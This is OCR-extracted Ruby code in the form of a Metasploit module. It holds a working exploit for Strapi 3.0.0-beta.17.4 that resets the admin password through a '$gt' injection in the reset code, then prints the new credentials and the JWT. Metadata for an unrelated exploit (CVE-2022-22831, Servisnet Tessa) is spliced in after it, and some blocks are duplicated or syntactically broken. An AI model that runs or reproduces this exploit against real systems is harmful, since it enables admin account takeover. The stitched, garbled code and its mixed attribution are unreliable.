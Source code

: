   'Privileged'     => true,
  'DisclosureDate' => "",
  'DefaultOptions' =>
    {
      'SSL' => 'False',
      'RPORT' => 80,
    },
  'DefaultTarget'  => 0

  ))

  register_options [
    OptString.new('NEW_PASSWORD', [true, 'New password for user Admin'])
  ]
res = send_request_raw({ 'uri' => '/admin/init' })
version = JSON.parse(res.body)

if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'
  return Exploit::CheckCode::Vulnerable
else
  return Exploit::CheckCode::Safe
end
json_body = { 'code' => {'$gt' => 0},
  'password' => datastore['NEW_PASSWORD'],
  'passwordConfirmation' => datastore['NEW_PASSWORD'] }

res = send_request_cgi({
  'method' => 'POST',
  'uri' => '/admin/auth/reset-password',
  'ctype' => 'application/json',
  'data' => JSON.generate(json_body)
})

print_status("Changing password...")
json_format = JSON.parse(res.body)
jwt = json_format['jwt']

if res.code == 200
  print_good("Password changed successfully!")
  print_good("USER: admin")
  print_good("PASSWORD: #{datastore['NEW_PASSWORD']}")
  print_good("JWT: #{jwt}")
else
  fail_with(Failure::NoAccess"Could not change admin user password")
end
  ),
  'References'     =>
    [
      [ 'CVE', 'CVE-2022-22831' ],
      [ 'URL', 'https://www.pentest.com.tr/exploits/Servisnet-Tessa-Add-sysAdmin-User-Unauthenticated.html' ],
      [ 'URL', 'http://www.servisnet.com.tr/en/page/products' ]
    ],
  'Author'         =>
    [
      'Özkan Mustafa AKKUŞ <AkkuS>' # Discovery & PoC & MSF Module @ehakkus
    ],
  'License'        => MSF_LICENSE,
  'DisclosureDate' => "Dec 22 2021",
  'DefaultOptions' =>
    {
      'RPORT' => 443,
      'SSL'   => true
    }
))
